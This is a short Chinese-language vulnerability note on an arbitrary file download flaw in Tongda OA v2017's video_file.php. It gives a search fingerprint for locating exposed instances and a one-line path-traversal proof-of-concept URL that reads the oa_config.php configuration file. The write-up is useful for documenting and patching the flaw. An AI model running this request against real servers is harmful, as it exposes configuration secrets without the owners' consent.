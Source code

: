 # 通达OA v2017 video_file.php 任意文件下载漏洞

## 漏洞描述

通达OA v2017 video_file.php文件存在任意文件下载漏洞，攻击者通过漏洞可以读取服务器敏感文件

## 漏洞影响

<a-checkbox checked>通达OA v2017</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657609448877-d05e2d6d-6c83-456d-a088-ee09cea92c30-20220712150651348.png)

验证POC

```php
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php	
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657609468826-7eec4875-7f16-4b37-a13d-2a6e73d2f1ce.png)